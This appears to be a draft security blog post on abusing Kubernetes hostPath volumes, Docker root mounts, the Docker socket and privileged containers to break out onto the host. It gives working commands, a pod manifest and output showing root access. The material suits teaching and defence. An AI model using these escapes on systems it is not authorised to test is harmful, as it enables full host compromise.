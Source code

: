 +++
date = '2025-03-04T21:55:26-05:00'
draft = true
title = 'HostPath'
+++

Abusing HostPath to escape containers.

---

## Mounting Root Volumes Inside Containers

### Docker
Run an alpine container with root filesystem mounted under `/host` in the container
```
$ docker run --rm -it -v /:/host alpine:latest /bin/sh
$ / # cat /etc/os-release
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.12.0
PRETTY_NAME="Alpine Linux v3.12"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://bugs.alpinelinux.org/"
```

Changing my root directory to the `/host` directory with `chroot` allows us to break out of the container.
```
/ # ls
bin    etc    host   media  opt    root   sbin   sys    usr
dev    home   lib    mnt    proc   run    srv    tmp    var

/ # chroot /host bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@3396f9188944:/#
```
Show release information has changed to Ubuntu (WSL)
```
root@3396f9188944:/# cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.1 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.1 LTS"
VERSION_ID="20.04"
...<snip>...
```

Access to drives on the host
```
$ root@3396f9188944:/# df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sdb        251G   28G  211G  12% /
tools           1.8T  1.7T  131G  93% /init
none             13G     0   13G   0% /dev
tmpfs            13G     0   13G   0% /sys/fs/cgroup
...<snip>...
tmpfs            13G     0   13G   0% /mnt/wsl
C:\             1.8T  1.7T  131G  93% /mnt/c
D:\             112G   11G  102G  10% /mnt/d
```

### Kubernetes
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: noderoot
spec:
  containers:
  - name: noderoot
    image: raesene/alpine-containertools
    imagePullPolicy: Always
    volumeMounts:
    - name: root
      mountPath: "/host"
  volumes:
  - name: root
    hostPath:
      path: "/"
```
Exec into pod to see mounted host directory just like docker
```
$ kubectl apply -f noderoot.yaml
pod/noderoot created

$ kubectl exec -it pod/noderoot -- /bin/bash
bash-5.0# chroot /host bash
[root@noderoot /]#
```

`chroot` onto the host
```
[root@noderoot /]# cat /etc/os-release
NAME=Fedora
VERSION="33.20210104.3.1 (CoreOS)"
ID=fedora
VERSION_ID=33
VERSION_CODENAME=""
PLATFORM_ID="platform:f33"
PRETTY_NAME="Fedora CoreOS 33.20210104.3.1"
...<snip>...
```

### Docker Socket
The docker socker on the host is located at `/var/run/docker.sock`. Mounting this inside a container will allow processes running inside the container to interact with the docker daemon, and run additional containers.
```
$ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock docker /bin/sh
/ # docker version
Client: Docker Engine - Community
 Version:           20.10.2
 API version:       1.41
 Go version:        go1.13.15
 Git commit:        2291f61
 Built:             Mon Dec 28 16:11:26 2020
 OS/Arch:           linux/amd64
 Context:           default
 Experimental:      true
...<snip>...
```

We can even see our own container running.
```
/ # docker ps
CONTAINER ID   IMAGE     COMMAND                  CREATED              STATUS              PORTS     NAMES
e52efd14f85c   docker    "docker-entrypoint.s…"   About a minute ago   Up About a minute             dreamy_poincare
```

### Privileged Containers
Although we have complete access to the hosts filesystem, we still lack some capabilities we'd want to completely bypass all restrictions of the container and get true `root`.

Use `capsh` to show some capabilities are missing, such as `cap_sys_admin`, the biggest bundle of privileges.
```
root@3396f9188944:/# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
```

Run the container again, but using privileged flag and see we have `cap_sys_admin` and have truely broken out as `root`.
```
$ docker run --rm -it --privileged -v /:/host alpine:latest /bin/sh
/ # chroot /host bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@33507db52673:/# capsh --print
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
...
```

---

## References
- [Linux Capabilities](https://linux-audit.com/linux-capabilities-101/)
- [The Path Less Traveled: Abusing K8s Defaults - Ian Coldwater & Duffy Cooley](https://www.youtube.com/watch?v=HmoVSmTIOxM)
- [Seccomp Security Profiles and You - Duffy Cooley](https://www.youtube.com/watch?v=OPuu8wsu2Zc)
- [Kubernetes Goat - Intentional Vulnerable K8s Cluster](https://github.com/madhuakula/kubernetes-goat)

